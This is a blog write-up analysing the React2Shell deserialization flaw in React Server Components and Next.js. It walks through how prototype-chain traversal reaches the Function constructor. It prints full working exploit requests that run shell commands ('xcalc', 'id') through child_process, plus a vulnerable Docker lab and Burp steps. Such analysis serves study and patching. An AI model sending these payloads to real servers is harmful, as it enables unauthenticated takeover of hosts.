




## Introduction

While reviewing the major vulnerability disclosures of 2025, I found myself revisiting React2Shell, a flaw that sent shockwaves through the web development community last month. It has been some time since my last deep dive into web application pentesting, so I decided to analyze this critical vulnerability in detail.

## Overview

React2Shell is a CVSS 10.0 critical severity vulnerability affecting server-side React.js usage. It is listed under CVE number: **CVE-2025-55182** for **React.js** and **CVE-2025-66487** for **Next.js** framework. This vulnerability allows unauthenticated remote code execution through crafted HTTP request.
The react2shell vulnerability affects the React Server Components (RSC) and the frameworks that implements them such as Next.js and allows unauthenticated remote code execution. This vulnerability was reported by [Lachlan Davidson](https://github.com/lachlan2k) on 29th November 2025 (Pacific Time) to the Meta team (maintainers of React.js). The vulnerability was first disclosed publicly later on 3rd December (Pacific Time) along with a patch. In this blog, we will cover some basics of React.js needed to understand this vulnerability, React Server Components (RSC), Flight Protocol, Analyze the vulnerability, Analyze the POC and finally Run the exploit in our own lab environment to see how the exploit works in real scenarios.

## React Basics

React.js focuses on the view layer of an application and lets developers build reusable UI components that efficiently update when data changes using a virtual DOM. React itself does not handle routing, data fetching, or server logic—it is primarily concerned with rendering UI components in the browser (and, with additional tooling, on the server).

Next.js extends React by adding production-ready features such as server-side rendering (SSR), static site generation (SSG), API routes, file-based routing, and built-in performance optimizations. Next.js can run React code on the server (using Node.js) as well as in the browser, making it suitable for SEO-friendly and high-performance web applications.

Here are the important components of React.js we need to know about for understanding this exploit.

> **Prototype Chain -** The prototype chain is JavaScript’s inheritance mechanism in which objects automatically delegate property lookups to their prototype, then to that prototype’s prototype, and so on until the chain ends at `null`, allowing objects to access properties and methods they do not directly define.

>**Constructor -** A constructor is a special function used to create and initialize objects, defining their properties and behavior when a new instance is created.

>**Server rendering -** It is a technique where an application’s UI is generated on the server and sent to the client as ready-to-use content, improving initial load time, performance, and SEO while reducing the amount of work done in the browser.

> **Chunk Object -** A chunk object is a unit of data or code—often produced by a bundler or streaming protocol—that represents a portion of an application (such as a module, component, or serialized UI data) and is loaded, processed, or transmitted independently of other parts.


## React Server Components and Flight Protocol

### React Server Component (RSC)

React Server Components are a new type of component that run exclusively on the server, allowing for improved performance and user experience by reducing the amount of JavaScript sent to the client. They can fetch data and render parts of the UI before sending the final HTML to the browser, which helps in faster initial loading times and better SEO. React Server Component was first introduced in React 19.

### Flight Protocol

The communication between the server and client in RSC relies on a protocol called **React Flight**. The **React Flight Protocol** is the internal wire protocol used by **React Server Components** to stream a serialized representation of the component tree from the server to the client instead of HTML, including component structure, props, and references to client components. The client React runtime (commonly via frameworks like **Next.js**) incrementally reconstructs and hydrates only interactive parts, enabling smaller JavaScript bundles, server-only logic, and faster rendering through streaming and Suspense. 
Simply put, this protocol is responsible for serializing and deserializing data exchanged between the client and the server. When the client invokes a server-side function (a **Server Action**), it sends a specially structured request with serialized data, which the server then deserializes and executes.

## Deserialization Vulnerability

**Unsafe deserialization** is a vulnerability where untrusted serialized data is deserialized without proper validation, allowing attackers to manipulate objects and potentially achieve code execution, data tampering, or denial of service.

The react2shell vulnerability is basically an unsafe deserialization vulnerability in how the incoming flight protocol payloads are handled by the react server component. The vulnerability exists in the `react-server-dom-webpack` package.

```javascript
function requireModule(metadata) {  
 var moduleExports = __webpack_require__(metadata[0]);  
 ... <snip> ...
 return moduleExports[metadata[2]];  // VULNERABILITY
}  
```

This issue is an **unsafe deserialization vulnerability** arising from how **React Server Components** interpret untrusted **Flight protocol** data on the server. In the vulnerable code inside **react-server-dom-webpack**, the `requireModule` function dynamically resolves exports using user-controlled metadata.

The line `moduleExports[metadata[2]]` is dangerous because JavaScript’s bracket notation does not restrict access to explicitly exported properties — it walks the entire **prototype chain**. As a result, an attacker can request properties like `constructor` that were never intended to be exposed. Since every JavaScript function inherits a `constructor` property pointing to the global **JavaScript** `Function` constructor, accessing `someFunction.constructor` yields a powerful primitive capable of executing arbitrary code via `Function("code")()`. The vulnerability becomes exploitable because the Flight protocol allows clients to specify **colon-separated property paths**, enabling crafted references such as `$1:constructor:constructor`, which resolve from a module export to its constructor and then to the global `Function` constructor. This effectively turns deserialization of Flight payloads into a **server-side code execution risk**, as untrusted client input controls object traversal and function resolution during server rendering.

The `$1:constructor:constructor` reference works by walking the object hierarchy step by step: it first resolves chunk (or module) `1`, then accesses its `.constructor` property, which yields the global `Function` constructor, and finally accesses `.constructor` once more, still resolving to the same `Function` constructor while firmly anchoring the prototype chain path.

## Deserialization to Remote Code Execution

[maple3142](https://x.com/maple3142) dropped a [POC](https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3#file-cve-2025-55182-http) for the CVE-2025-55182 that achieves Remote Code Execution. This POC chains together various JavaScript engine behaviors to transform the deserialization vulnerability into Arbitrary Code Execution. The exploit is a multipart form http request with three fields.

```json
{  
 "then": "$1:__proto__:then",  
 "status": "resolved_model",  
 "reason": -1,  
 "value": "{\\"then\\":\\"$B1337\\"}",  
 "_response": {  
   "_prefix": "process.mainModule.require('child_process').execSync('xcalc');",  
   "_chunks": "$Q2",  
   "_formData": {  
     "get": "$1:constructor:constructor"  
   }  
 }  
}
```

**PART ONE**

This payload exploits how React Server Components process Flight data by abusing JavaScript’s “thenable” behavior and prototype-chain property resolution. The object is crafted to look like React’s internal `Chunk` structure, including fields such as `status`, `value`, `_response`, and especially `then`, so React treats it as a legitimate chunk. By setting `then` to resolve via `__proto__`, the object does not define its own `then` method but instead inherits `Chunk.prototype.then`. When React later `await`s this chunk, JavaScript automatically invokes the inherited `then` method with the attacker-controlled object as `this`. The prototype `then` implementation assumes it is operating on a trusted internal chunk, so it reads other properties from the object without validation. Those properties are attacker-supplied and include paths like `constructor:constructor`, which resolve to the global `Function` constructor through the prototype chain. React’s internal response-handling logic then combines this with attacker-controlled strings (such as `_prefix`), resulting in the dynamic creation and execution of a function. In short, the exploit turns a passive serialized object into executable code by masquerading as a promise-like chunk, leveraging prototype traversal to reach powerful constructors, and letting JavaScript’s own `await` semantics trigger execution.

**PART TWO**

In the second stage, the exploit pivots from promise/thenable abuse to **Blob deserialization**, which is another trusted execution path in the React Flight protocol. In Flight payloads, values prefixed with `$B` represent **Blob references**, and when React encounters such a reference (for example `$B1337`), it resolves it by calling a Blob handler that fetches the associated data using `response._formData.get(response._prefix + id)`. Under normal conditions, `_formData.get` is a safe accessor and `_prefix` is a benign string used to namespace Blob identifiers. However, the attacker has already polluted the `_response` object so that `_formData.get` no longer points to a real getter but instead resolves through the prototype chain to `constructor:constructor`, which is the global `Function` constructor. At the same time, `_prefix` is attacker-controlled and contains arbitrary JavaScript code. When the Blob handler concatenates `_prefix` with the Blob id (`1337`) and passes the result to `_formData.get`, React unknowingly executes `Function("<attacker code>1337")`. The act of constructing the function immediately evaluates the supplied string as executable JavaScript, leading to arbitrary code execution. This works because React assumes `_response` is a trusted internal object and does not validate either the type of `_formData.get` or the contents of `_prefix`, allowing a normally inert deserialization step to become an execution sink once those fields are attacker-controlled.

**PART THREE**

At this final stage, the exploit fully escapes the React runtime and achieves native server-side code execution by leveraging Node.js internals. The injected payload `process.mainModule.require('child_process').execSync('xcalc')` runs inside the same Node.js process that is executing the React server. First, `process.mainModule` gives access to the application’s entry module, which exposes a trusted `require` function even if `require` is not directly in scope. Using this `require`, the exploit loads Node.js’s built-in `child_process` module, which provides APIs for interacting with the operating system. Calling `execSync` then executes an arbitrary shell command synchronously with the privileges of the server process. Launching `xcalc` is simply a benign proof of exploitation showing that arbitrary commands can be executed, but the impact is far more severe: the same mechanism can be used to spawn reverse shells, read or modify files, exfiltrate environment variables and secrets, pivot to other internal services, or otherwise fully compromise the host. At this point, React and JavaScript abstractions no longer matter—the attacker effectively has the same capabilities as the Node.js application itself.

## Taking a look at the POC

Now let us analyze the actual [POC](https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3#file-cve-2025-55182-http) by [maple3142](https://x.com/maple3142).

```
POST / HTTP/1.1  
Host: localhost  
Next-Action: x  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad

------WebKitFormBoundaryx8jO2oVc6SWP3Sad  
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\"$B1337\\"}","_response":{"_prefix":"process.mainModule.require('child_process').execSync('xcalc');","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}  
------WebKitFormBoundaryx8jO2oVc6SWP3Sad  
Content-Disposition: form-data; name="1"

"$@0"  
------WebKitFormBoundaryx8jO2oVc6SWP3Sad  
Content-Disposition: form-data; name="2"

[]  
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--  
```

This technical analysis details a critical Remote Code Execution (RCE) vulnerability (CVE-2025-55182) affecting the React and Next.js ecosystems. The exploit leverages the way React Server Components (RSC) deserialize data through the Flight protocol.

### Exploit Mechanism: The "Thenable" Injection

The attack is delivered via a crafted `multipart/form-data` request targeting a Server Action endpoint. By including the `Next-Action` header, the attacker forces the server to process the body using React’s internal serialization logic.

#### Payload Structure

* **Field 0 (The Poisoned Chunk):** The attacker provides an object that mimics a React `Chunk`. It is engineered to include a `then` property and a polluted `_response` object, setting the stage for prototype pollution.
* **Field 1 (The Self-Reference):** Using the value `"$@0"`, the attacker creates a circular reference to Field 0. When React deserializes this, it treats the object as a "thenable" (a promise-like object).
* **Field 2 (The Validator):** An empty array included to satisfy the Server Action’s expected argument structure, preventing the request from being rejected prematurely.

#### Execution Flow

1. **Deserialization:** React reconstructs the objects from the multipart fields.
2. **Promise Trigger:** Because the object is a "thenable," JavaScript’s promise logic automatically invokes the `then` method.
3. **Blob Handling & Execution:** During resolution, React encounters a `$B1337` Blob reference. Due to the poisoned `_response` object, the framework's internal handler is redirected to the `Function` constructor. This allows the attacker’s input to be executed as code on the server.


### Impact and Exposure

The vulnerability is highly critical due to its reliability and the "secure by default" assumption it breaks.

| Metric | Details |
| --- | --- |
| **Authentication** | None required (Unauthenticated RCE) |
| **Success Rate** | Near 100% (Deterministic framework behavior) |
| **Cloud Exposure** | 39% of cloud environments contain vulnerable instances |
| **Total Reach** | ~571k React servers and ~444k Next.js servers (Shodan) |

### Affected Versions

The flaw resides in the React Server Components implementation across several major versions:

* **React:** 19.0.0 through 19.2.0
* **Next.js:** 14.3.0-canary.77+, all 15.x versions, and early 16.x versions.
* **Frameworks:** Any RSC-based system, including Waku, Redwood SDK, and React Router.

> Because standard `create-next-app` templates are vulnerable out of the box, immediate patching to the latest framework versions is highly recommended.

## Running the Exploit

```
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 740

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id',{'timeout':5000}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

To test out the exploit, we will setup a docker container using a Dockerfile:

```dockerfile
FROM node:20-bookworm

WORKDIR /app

# 1. Create package.json with the necessary scripts
RUN echo '{\
  "name": "vulnerable-nextjs",\
  "version": "0.1.0",\
  "private": true,\
  "scripts": {\
    "build": "next build",\
    "start": "next start"\
  }\
}' > package.json

# 2. Install the specific vulnerable versions (forcing bypass of peer conflicts)
RUN npm install next@15.0.0 react@19.0.0 react-dom@19.0.0 --legacy-peer-deps

# 3. Create a minimal JS-based App Router structure
RUN mkdir -p src/app
RUN echo 'export default function Page() { return <h1>Vulnerable Environment Running</h1>; }' > src/app/page.js
RUN echo 'export default function RootLayout({ children }) { return <html lang="en"><body>{children}</body></html>; }' > src/app/layout.js

# 4. Build the application
ENV NEXT_TELEMETRY_DISABLED 1
RUN npm run build

EXPOSE 3000

CMD ["npm", "run", "start"]
```

Then run the following to create and start the docker container on the port 3000.

```bash
docker build -t react2shell .
docker run -p 3000:3000 react2shell
```




To run the exploit, open a new tab in burp repeater (1) and paste in the http request from above. Then goto the top right corner (2) and select Target, a dialog box will open, fill out the target-specific information (3) and make sure to disable https as our application is running on http.



Now click on send and check the response.



The response will have a 500 Internal Server Error Code and the response body will contain the output for the id command.

Check out my POC for React2Shell [here](https://github.com/snipevx/React2Shell-POC).

## Final Words

This concludes my analysis of the React2Shell (CVE-2025-55182) vulnerability. We explored the React fundamentals necessary to understand the core flaw, examined React Server Components and the Flight Protocol, and analyzed how an unsafe deserialization vulnerability can be chained to achieve Remote Code Execution. Finally, we demonstrated the exploit in a controlled Docker environment. I highly recommend that all developers using React and Next.js audit their versions immediately. The next step for researchers would be to explore reverse shell persistence or alternative payloads to further understand the extent of this flaw.